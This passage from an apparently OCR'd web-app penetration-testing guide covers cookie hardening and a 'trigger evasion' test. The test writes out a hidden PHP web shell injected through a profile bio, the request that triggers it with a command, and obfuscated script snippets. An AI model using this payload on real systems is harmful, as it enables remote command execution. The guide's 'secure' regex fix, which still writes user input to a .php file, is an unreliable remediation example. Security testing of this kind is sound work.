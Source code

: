 **Example Secure Code (PHP)**:
```php
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
echo $comment;
```
Test: No cookie manipulation.

**Remediation**:
- Sanitize output:
  ```php
  echo htmlentities($comment);
  ```
- Secure cookies:
  ```php
  setcookie('session', $value, ['httponly' => true, 'secure' => true]);
  ```

**Tip**: Save session manipulation evidence in a report.

### 8. Test for Trigger Evasion

**Objective**: Verify if inputs can create payloads that evade detection or activation checks.

**Steps**:
1. Inject evasive payloads:
   - Test: `<?php /*hidden*/ if (isset($_GET['secret'])) { system($_GET['cmd']); } ?>`
   - Use Burp:
     ```http
     POST /profile HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     bio=<?php /*hidden*/ if (isset($_GET['secret'])) { system($_GET['cmd']); } ?>
     ```
2. Check activation:
   - Test: `http://example.com/profile?secret=1&cmd=whoami`.
3. Test obfuscation:
   - Try: `eval(decodeURIComponent('malicious%20code'));`.
   - Test: `<script>if (location.href.includes('trigger')) { malicious(); }</script>`.
4. Monitor logs:
   - Check for payload detection (gray-box).

**Example Vulnerable Code (PHP)**:
```php
$bio = $_POST['bio'];
file_put_contents("bio.php", $bio);
```
Test: `bio=<?php /*hidden*/ if (isset($_GET['secret'])) { system($_GET['cmd']); } ?>`
Result: Executes with secret parameter.

**Example Secure Code (PHP)**:
```php
$bio = preg_replace('/<\?php.*?\?>/', '', $_POST['bio']);
file_put_contents("bio.php", $bio);
```
Test: No execution.

**Remediation**:
- Filter scripts:
  ```php
  $bio = strip_tags($bio);
  ```
- Implement WAF:
  ```apache
  SecRule ARGS "@contains <?php" "deny,status:403"
  ```

**Tip**: Save evasion evidence in a report.
